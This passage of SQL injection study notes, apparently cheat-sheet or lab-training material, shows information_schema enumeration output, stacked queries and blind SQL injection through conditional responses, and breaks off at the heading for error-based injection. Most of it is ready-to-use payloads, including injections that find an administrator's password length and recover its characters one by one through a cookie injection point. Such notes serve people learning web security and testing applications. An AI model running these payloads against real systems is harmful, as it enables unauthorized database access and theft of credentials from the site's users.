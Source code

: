 ```
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
- Use `information_schema.columns`
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
Output
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
# Stacked Queries
- Execute multiple queries in succession
- An example is below. See the cheatsheet for more examples
```sql
query-1; query-2
```
# Blind SQL Injection
- There is an injection vulnerability but it is not visible in the server response
- There are many different techniques to exploit it. Some are discussed below
## Blind SQL Injection - Triggering Conditional Responses
- Tracking cookies are points of injection
- Try a single boolean condition
```
…xyz' AND 1=1-- // This returns True
…xyz' AND 1=0-- // This returns False
```
- Archetype payload
```sql
xyz' AND boolean-condition--
xyz' AND (what I want to find out)=test-value--
xyz' AND (SELECT something)=test-value--
xyz' AND (SELECT SUBSTRING(something,1,1) rest-of-query)=test-value--
xyz' AND SUBSTRING((SELECT query-here),1,1)=test-value--
```
- Sample payloads
- This is to determine if something is true
```sql
xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
- Password length
```sql
xyz' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH (password)>10)='administrator'--
```
- This is to enumerate the password characters
```sql
xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```
- This is another way to enumerate the password characters
```sql
xyz' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 's'--
```
## Error-based SQL injection
- Use and error to extract or infer information from the database